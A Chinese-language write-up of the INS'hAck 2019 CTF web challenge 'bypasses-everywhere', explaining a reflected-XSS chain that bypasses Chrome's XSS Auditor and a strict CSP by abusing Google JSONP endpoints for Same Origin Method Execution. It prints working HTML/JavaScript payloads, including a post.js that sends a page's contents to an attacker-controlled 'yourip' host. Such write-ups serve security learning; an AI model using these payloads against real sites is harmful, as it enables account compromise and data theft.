









# INS'hAck CTF - 2019

## Web / 420 - bypasses-everywhere

> Description:
> I'm selling very valuable stuff for a reasonable amount of money (for me at least). Go check it out!
> 
> `https://bypasses-everywhere.ctf.insecurity-insa.fr`

### Solution

By [@Cyku](https://github.com/killua4564)

很可惜，我們沒能在比賽中將這道題目解開，解題到途中因為缺少最後一塊拼圖而卡關，隨後隊友彼此都去各忙各的了，只能在賽後參考其他人的 Writeup 修改了 Payload 才解開 QQ

打開題目網站連結，會得到如下的畫面：



這個網站主要有兩個頁面，分別是：
- `https://bypasses-everywhere.ctf.insecurity-insa.fr/article`
- `https://bypasses-everywhere.ctf.insecurity-insa.fr/admin`

其中可以在 `/admin/` 頁面上發現一段奇怪的訊息：
```
You're currently seeing this page from an unknown IP address. I'm usually connecting to this page by clicking a link from another hidden page on http://127.0.0.1:8080, so I'm pretty sure this page is safe :) 
```


而且有一個文字方塊要求你輸入一段 Url，嘗試輸入自己的伺服器位址送出後，目標會用瀏覽器開啟你提供的連結，不久就能在自己伺服器收到一個請求。
```
GET / HTTP/1.1
Host: yourip
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
```


到這邊已經可以清楚猜測出題目的方向，應該就是要我們進行 `Cross-Site Scripting (XSS)` 攻擊並竊取隱藏在 `http://127.0.0.1:8080/admin` 上的隱密資訊。

經過一些快速 fuzzing 之後，發現下面兩個頁面都可以進行反射型 XSS (`Reflected Cross-Site Scripting`)
- `https://bypasses-everywhere.ctf.insecurity-insa.fr/admin?picture=">&unit=`





但兩個頁面各別有不同的限制存在。

第一個 `/admin` 頁面若是在 Firefox 上則可以很容易的執行任何 JavaScript，例如：`/admin?picture="><svg/onload="alert(document.domain)`，但各位應該也注意到，先前送出 Url 後收到的請求中有提示目標的 `User-Agent` 是 `HeadlessChrome/73.0.3683.75`，Chrome 本身自帶 XSS Auditor，單一參數的 Reflected XSS 很容易被 Chrome 阻擋，加上版本還蠻新的，要繞過 Auditor 會十分困難。

第二個 `/article` 頁面有兩個參數可注入，而且注入位置連接在一起，這樣很容易構造出能繞過 Auditor 的反射型 XSS Payload，例如：`/article?time=<script/src="&unit=http://yourip/">`。雖然這邊可繞過 Auditor，但有更加棘手的限制就是該頁面設定了 CSP `Content-Security-Policy: script-src www.google.com; img-src *; default-src 'none'; style-src 'unsafe-inline'`


這條 CSP 基本禁止了來源不是 `www.google.com` 的任何 JavaScript 被執行，無法用 `<script src=>` 引入我們的 Payload，也無法用 `onload` 等事件執行 inline JavaScript，甚至無法用 eval 等函式。除非我們可以控制 `www.google.com` 伺服器上的檔案，否則我們很難直接繞過這條 CSP 限制。

這些條件限制讓我們很直覺地聯想到 SOME (Same Origin Method Execution) 的攻擊手法。可以嘗試利用 `/article` 去引入在 `www.google.com` 下的 JSONP Endpoint，然後去觸發在 `/admin` 下的事件執行或呼叫該頁面定義的函式，也許有機會繞過 XSS Auditor 的限制。

關於 SOME (Same Origin Method Execution) 參考：
[[翻译]挖掘同源方法执行漏洞(Same Origin Method Execution)](https://xiaix.me/fan-yi-wa-jue-tong-yuan-fang-fa-zhi-xing-lou-dong-same-origin-method-execution/)

於是我們立刻建立了 PoC，下面 PoC 包含兩個檔案 main.html 與 step1.html，關於兩個檔案各別用途可參考上面分享的文章，我們在 `/admin` 注入了一個 `<a id=ggg href="http://yourip/ping">`，接著在 `/article` 嘗試觸發 id 為 ggg 的 a 標籤的 click 事件，若 SOME 觸發成功，目標網頁就會從 `/admin` 跳轉到 `http://yourip/ping`。另外我們在 `/admin` 多插入了一些 img 標籤去延遲渲染的時間，確保目標的 Chrome 不會因為立刻關閉導致未執行到 click 事件。

main.html:
```
<body>
<script>
    window.open("step1.html");
    window.location = 'http://127.0.0.1:8080/admin?picture=%22%3E<a%20id=ggg%20href=%22http://yourip/ping';
</script>
</body>
```

step1.html:
```
<body>
<script>
    window.location = 'http://127.0.0.1:8080/article?name=Phone&img=&time=<script/src&unit==%22//www.google.com/tools/feedback/escalation-options%3fcallback=window.opener.ggg.click%22>';
</script>
<body>
```

我們找到兩個 `www.google.com` 上的 JSONP Endpoint，上面 PoC 使用第一個 Endpoint。

- `www.google.com/tools/feedback/escalation-options?callback=alert`
- `www.google.com/uds/GwebSearch?callback=alert&context=1&rsz=large&q=R&v=0.1`


送出 Url `http://yourip/main.html` 然後等待自己伺服器的 access.log 更新，接著就能發現目標瀏覽器確實跳轉到 `http://yourip/ping` 且 Referer 也確實是 `http://127.0.0.1:8080/admin`，表示 SOME 可以 work。


SOME 除了可執行已存在函式或事件以外，我們也能透過他執行 setTimout、eval、document.write 等危險函式作進一步的操作，但前提是除了能控制 JSONP 的 callback 外還要能控制參數內容。所以我們 ... 就去吃飯了 ¯\\_(ツ)_/¯。

這就是我們缺少的最後一塊拼圖，我們找不到可以控制參數內容的 JSONP Endpoint，雖然 `www.google.com/uds/GwebSearch?callback=alert&context=1` 的 context 可以控制，但它幾乎只接受英數字的字元，後續夥伴們因為有事就各自去忙碌了，也就沒繼續挑戰。

賽後我們參考了此篇 Writeup: [https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere](https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere)

這篇文章用到的 JSONP Endpoint 是 `https://www.google.com/complete/search?client=chrome&q=hello&callback=alert`，也是我們缺少的拼圖，參數 q 就是 callback 的參數，並且接受任何字元，唯一限制是 q 長度不能過長。


有了這個，就能結合先前的 SOME PoC 成功串出 `/admin` 上的 XSS。我們先 dump 出 `/admin` 的完整 document 內容。同樣的，中間插入了一些 img 標籤是為了延遲渲染的時間。

main.html
```
<body>
<script>
    window.open("step1.html");
    window.location = "http://127.0.0.1:8080/admin?picture=%22%3E";
</script>
</body>
```

step1.html
```
<body>
<script>
window.location =
    'http://127.0.0.1:8080/article?name=Phone&img=&time=<script/src&unit==%22//www%2Egoogle%2Ecom%2Fcomplete%2Fsearch%3Fclient%3Dchrome%26q%3Da=document.createElement(%27script%27);a.src=%27//yourip/post.js%27;document.body.appendChild(a);//%26callback%3Dwindow%2Eopener%2esetTimeout%22>';
</script>
</body>
```

post.js
```
document.write('');

fetch('/admin').then(res => res.text()).then(text => (new Image).src=('http://yourip/?'+encodeURIComponent(text)));
```

成功收到 `/admin` 的 document 內容:

```
<!DOCTYPE html>
<html>
<head>
	<title>Welcome!</title>
</head>
<body>

	

<h1>Send me a gift</h1>
<p>
	I'm currently looking to sell more costly stuff. If you want to help me, please send me a link to the article you want to give me (for free!) and I'll check it out.
</p>
<form action="/url" method="post">
	<label>Url</label>
	<input type="text" name="url" placeholder="https://bypasses-everywhere.ctf.insecurity-insa.fr/article?name=Plane">
	<input type="submit" value="Submit">
</form>
<br>


from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()

def _local_access() -> bool:
    if request.referrer is not None and not re.match(r"^http://127\.0\.0\.1(:\d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"

def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)

    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
            data = request.get_json(force=True)
            assert data["secret"] == "No one will never ever access this beauty"
            requests.post(data["url"], data={
                "flg": FLAG,
            }, timeout=2)
            return "yeah!"
        except Exception as e:
            app.logger.error(e)
            return 'Wut?'


	<script src="https://www.google.com/recaptcha/api.js" async defer></script>
</body>
</html>
```

簡單修改一下 post.js

```
document.write('');

fetch('/article',{method:'POST',body:JSON.stringify({'secret':'No one will never ever access this beauty','url':'http://yourip:8080/'})});
```

最後只要在自己伺服器上 listen 8080，就可以等待接收 flag

```
POST / HTTP/1.1
Host: yourip:8080
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 81
Content-Type: application/x-www-form-urlencoded

flg=INSA%7Bf330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa%7D%0A
```


`INSA{f330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa}`

### References

- [[翻译]挖掘同源方法执行漏洞(Same Origin Method Execution)](https://xiaix.me/fan-yi-wa-jue-tong-yuan-fang-fa-zhi-xing-lou-dong-same-origin-method-execution/)
- [https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere](https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere)
